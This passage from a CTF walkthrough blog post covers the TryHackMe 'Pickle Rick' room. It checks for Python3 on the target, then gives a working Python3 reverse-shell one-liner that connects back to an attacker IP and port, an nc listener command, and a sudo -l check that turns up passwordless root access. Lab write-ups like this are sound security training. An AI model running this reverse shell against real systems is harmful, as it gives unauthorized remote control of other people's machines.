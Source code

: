 </aside>

To get all other ingredients, we can actually use the interface to execute a command, but it’s a bit of a pain in the a**, and limit our creativity. And as the ultimate goal here is to own the server, why don’t we try to get the reverse shell 👀

Before that, let’s check what else is on the server, e.g., Python, netcat, etc. In my case, I checked Python and Python3 by using a command `which Python` and `which Python3`. And there is a Python3 installed on the server.

![Fig 7: result of `which python3` command]({{ site.baseurl }}/assets/posts/2022-05-09-THM-Pickle-Rick-CTF/Untitled%206.png)

Fig 7: result of `which python3` command

## Weaponization 💌

### 5. Getting a reverse shell

Now we know that there is Python3 installed, we can find the payload to get a reverse shell. Heading to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), and get the script for python. Then making sure to change `python` to `python3` and your IP address.

In my case, I used the following script:

```bash
export RHOST="<LOCAL_IP_ADDRESS>";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

<aside>
💡 Remember to change `RHOST` and `RPORT` to your local machine and port you are going to use for local `netcat`.

</aside>

Before executing the command, go to local machine and start listener:

```bash
$: nc -lvnp 4444
```

Whoops, there we go! We got the reverse shell.

![Fig 8: reverse shell on local machine listening on port 4444]({{ site.baseurl }}/assets/posts/2022-05-09-THM-Pickle-Rick-CTF/Untitled%207.png)

Fig 8: reverse shell on local machine listening on port 4444

Now, it’s time to escalate 🔓

## Command& Control (C2)

### 6. Privilege Escalation

Using `sudo -l` to see things that this user can execute as a root user. Turned out, this user can use `sudo` command with *everything* and ***without a password*** 💥
